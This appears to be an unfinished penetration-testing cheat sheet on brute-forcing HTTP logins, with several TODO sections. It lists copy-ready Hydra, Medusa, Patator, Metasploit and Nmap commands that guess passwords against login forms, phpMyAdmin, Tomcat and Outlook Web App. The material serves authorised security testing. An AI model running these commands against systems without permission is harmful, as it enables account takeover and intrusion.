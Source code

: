 # HTTP

## 01 - Manual

TODO: Check out the references related to **Default HTTP Login Hunter** script

## 02 - Hydra

TODO: Provide every syntax of it's usage for hydra to brute force whatever type of http and provide an example of how to use it

### 2.1 - HTTP\[s\]-HEAD

`$ hydra -U http[s]-head`

### 2.2 - HTTP\[s\]-GET

`$ hydra -U http[s]-get`

### 2.3 - HTTP\[s\]-POST

`$ hydra -U http[s]-post`

### 2.4 - HTTP\[s\]-GET-FORM

`$ hydra -U http[s]-get-form`

### 2.5 - HTTP\[s\]-POST-FORM

`$ hydra -U http[s]-post-form`

`$ hydra http[s]-form-post <URL_path>:<form parameters>:<condition string>[:<optional>:<optional>]`

`$ hydra -L users.lst -P passwords.lst http-form-post "/login.php:user=^USER^&pass=^PASS^:Incorrect Password" -vV -f <IP>`

`$ hydra -L users.lst -P passwords.lst http-form-post "/login.php:user=^USER^&pass=^PASS^:F=<form name='login'" -vV -f <IP>`

- PHPMyAdmin Panel

`$ hydra -L users.lst -P passwords.lst http-form-post "/phpmyadmin/index.php:pma_username=^USER^&pma_password=^PASS^:#1045 Cannot log in to the MySQL server" -vV -f <IP>`

### 2.6 - HTTP-PROXY

`$ hydra -U http-proxy`

### 2.6 - HTTP-PROXY-URLEnum

`$ hydra -U http-proxy-urlenum`

## 03 - Medusa

- HTTP login popup form

`$ medusa -h <IP> -u <username> -P password.lst -M http -m DIR:/<URL_path>`

## 04 - Patator

TODO: Provide more examples

`$ patator http_fuzz method=GET url=<URL> 0=passwords.lst header="Cookie: <cookie_session>" --threads=2 timeout=15 -x quit:fgrep!='<Error_message_response>',clen!='-1'`

## 05 - Metasploit

TODO: Finish this information

Regular http login form

`msf > use auxiliary/scanner/http/http_login`

- PhpMyAdmin

`msf > use auxiliary/scanner/http/phpmyadmin_login`

- Apache Tomcat

`msf > use auxiliary/scanner/http/tomcat_mgr_login`

- Glassfish

`msf > use auxiliary/scanner/http/glassfish_login`

- Outlook Web App

`msf > use auxiliary/scanner/http/owa_login`

- Buffalo

`msf > use auxiliary/scanner/http/buffalo_login`

## 06 - Nmap

TODO: Fill in this information

`$ nmap --script form-brute`

`$ nmap --script http-frontpage-login`

`$ nmap --script http-proxy-brute`

`$ nmap --script http-joomla-brute`

---
## References

- [Default HTTP Login Hunter](https://github.com/InfosecMatter/default-http-login-hunter)

- [Default Password Scanner Default HTTP Login Hunter](https://www.infosecmatter.com/default-password-scanner-default-http-login-hunter-sh/)

- [NNdefaccts](https://github.com/nnposter/nndefaccts)